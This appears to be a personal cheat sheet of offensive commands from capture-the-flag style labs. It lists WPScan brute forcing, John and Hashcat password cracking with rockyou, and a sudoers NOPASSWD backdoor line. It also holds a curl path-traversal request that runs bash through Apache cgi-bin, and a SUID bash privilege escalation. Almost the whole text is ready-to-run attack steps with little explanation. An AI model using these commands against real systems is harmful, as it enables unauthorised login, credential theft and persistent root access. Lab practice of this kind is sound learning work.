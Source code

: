 wpscan --url http://derpnstink.local/weblog/ --passwords /usr/share/wordlists/fasttrack.txt --usernames admin -t 25

wpscan --url http://derpnstink.local/weblog/ --enumerate u,p

===================================hashcrack=====================================================
john md5.hash --wordlist=fsocity.dic --format=Raw-MD5
john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt --pot=output.txt

------------------------------------------------------------------------------------------------------------------
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

hashcat -a 0 -m 1800 hash.txt rockyou.txt

hashcat --force -m 1600 -a 0 hash /home/kali/rockyou.txt 

-a	attack mode (0 = dictionary attack)
-m	mode to assign the hash algorithm (1800 = SHA512 UNIX)
hash.txt	file which contains the hash to crank
rockyou.txt	password wordlist


/bin/bash -c 'echo "edward ALL= (root) NOPASSWD: /usr/bin/sudo " >>/etc/sudoers'
curl 'http://10.10.239.45/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami && pwd && id' -H "Content-Type: text/plain"


-------------------------------------------------------------------------------------------
touch shell.sh
cat shell.sh
#!bin/bash

cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
now the bash is set with suid bit
/tmp/bash -p
enjoy root